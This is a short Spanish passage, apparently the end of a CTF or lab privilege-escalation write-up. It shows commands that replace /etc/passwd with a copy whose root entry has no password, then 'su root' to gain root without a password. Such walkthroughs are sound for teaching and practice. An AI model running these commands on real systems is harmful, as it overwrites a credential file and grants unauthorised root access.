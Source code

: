 Le quitaremos la `x` a `root` para quitarle la contraseña.

Ahora haremos lo siguiente:

```shell
sudo cp /tmp/passwd_fake /etc/passwd
```

Y ahora si hacemos:

```shell
su root
```

Vemos que seremos `root` directamente sin meter contraseña, por lo que habremos terminado.
